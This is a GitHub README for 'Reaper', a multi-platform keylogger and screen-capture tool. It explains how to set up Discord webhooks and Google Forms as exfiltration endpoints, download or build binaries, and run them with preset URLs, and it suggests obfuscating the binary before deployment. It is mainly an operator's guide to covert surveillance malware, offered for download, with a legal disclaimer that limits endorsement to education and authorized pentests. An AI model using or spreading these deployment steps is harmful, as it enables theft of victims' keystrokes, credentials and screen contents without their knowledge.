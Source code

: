 # Reaper - A multi-platform keylogger and screengrabber

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Reaper?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Reaper)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Reaper is a **multi-platform keylogger, screengrabber and information gatherer** 
written in Python 3.

The **keylogger** module captures all keyboard events independently of which application is 
being run. Keystrokes on browsers, games, messengers, etc., are all monitored. Similarly, the 
**screenshot** module captures images from the active monitor in spite of which application 
generates them. **System information** such as OS name, kernel version, architecture and 
environment variables are also captured.

All data is exfiltrated to a **Discord** server and/or **Google Forms** instance through HTTPS. An 
**unlimited number of targets** can be monitored simultaneously through both methods.

Linux and Windows binaries are [available for download](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
for portability and ease of execution.

## Setup
All you need to run Reaper is a free Discord server and/or a 
Google Forms instance. You need at least one of the methods for successful 
exfiltration.

### 1. Set up Discord
Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/49511f621c43ce8a9fac138fa4b14f369edf6cbf/reaper/webhook_setup.png)

### 2. Set up Google Forms
Create a form on https://docs.google.com/forms with a free Google account. 
Set up as many questions as you need, with any names. Copy the form URL and that's it. *The 
exfiltration works as long as the answer field for the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/9842916f424823ae8d72f8cd0e73a66371b9bcc7/reaper/forms_setup.png)

## Execute
You can execute Reaper in three ways:
1. Directly from one of the pre-compiled binaries made available at [dist](https://github.com/EONRaider/BCA-Reaper/tree/master/dist)
2. Building your own binaries
3. From a local Python interpreter (usually for development purposes)

### 1. Use a pre-compiled binary
[Download Reaper](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
from the dist directory and run it with the URLs of your Discord server and/or Google Forms instance.
```shell
C:\Users\name> ./windows_reaper.exe --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The same procedure works for the Linux binary. Run with `--help` for options or check 
the [Usage](https://github.com/EONRaider/BCA-Reaper/tree/master#usage) section below.

### 2. (Optional) Build your own binary
What if you need a binary ready to exfiltrate to your own preset Discord and 
Google Forms URLs on execution *without setting them from the command line*? This might prove 
useful in a scenario of threat emulation, for example.

Building the binary allows you to do just that. You just need to install all dependencies and build. 
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended) and [Virtualenv](https://virtualenv.pypa.io/en/latest/). 
```shell
user@host:~$ git clone https://github.com/EONRaider/BCA-Reaper.git
user@host:~$ cd BCA-Reaper
user@host:~/BCA-Reaper$ poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
user@host:~/BCA-Reaper$ python3 build.py --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The result is a binary file named `linux_reaper` or `windows_reaper.exe` that is ready to exfiltrate to your preset URLs 
on execution. Optionally obfuscate and deploy in accordance with your threat emulation activity's ROE. Refer 
to the [Legal Disclaimer](https://github.com/EONRaider/BCA-Reaper/tree/master#legal-disclaimer) 
below.

### 3. (Optional) Run from a Python interpreter
This should be only used for development purposes. For that reason you may need to 
manipulate the `PYTHONPATH` environment variable to point to the root directory of 
Reaper.
```shell
user@host:~$ git clone https://github.com/EONRaider/BCA-Reaper.git
user@host:~$ cd BCA-Reaper
user@host:~/BCA-Reaper$ poetry install <--or--> pip install -r requirements.txt
user@host:~/BCA-Reaper$ export PYTHONPATH=$(pwd)
user@host:~/BCA-Reaper$ python3 src/reaper.py --help
```

## Usage
```
usage: reaper.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Reaper - Log keystrokes, take screenshots and grab system information from a target host 
and exfiltrate to Discord and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration 
                        of logged data. Defaults to 30 seconds. Set to None to perform a 
                        single operation.
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
